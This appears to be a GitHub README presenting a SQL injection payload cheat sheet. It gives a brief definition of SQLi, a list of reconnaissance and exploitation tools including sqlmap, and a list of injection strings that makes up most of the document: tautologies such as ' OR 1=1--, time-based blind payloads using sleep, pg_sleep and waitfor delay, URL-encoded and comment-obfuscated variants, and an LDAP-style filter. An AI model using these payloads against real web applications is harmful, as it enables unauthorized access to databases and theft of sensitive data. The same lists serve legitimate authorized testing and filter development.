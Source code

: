<div align="center"><samp><h1>SQL injection (SQLI) - PAYLOAD</h1></samp></div>
<b> Overview : </b>
<p>
A SQL injection is a technique that attackers use to gain unauthorized access to a web application database by adding a string of malicious code to a database query. A SQL injection (SQLi) manipulates SQL code to provide access to protected resources, such as sensitive data, or execute malicious SQL statements.
</p>
<div align="center"><samp><h1>Required Tools</h1></samp></div>
<pre>
httpx
subfinder
waybackurls
Gf Pattern
Sqlmap
</pre>
<div align="center"><samp><h1>Payload List</h1></samp></div>

```
'
' OR 1=1
' OR '1'='1
'pg_sleep(5) --+-
" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
' OR 1=1--
' OR 1=0--
%27%20or%201=1
*(|(object=*))
)%20or%20('x'='x
%20or%201=1
1) or pg_sleep(__TIME__)--
/**/or/**/1/**/=1
' or username like '%
);waitfor delay '0:0:__TIME__'--
or isNULL(1/0) /*
x' or 1=1 or 'x'='y
```
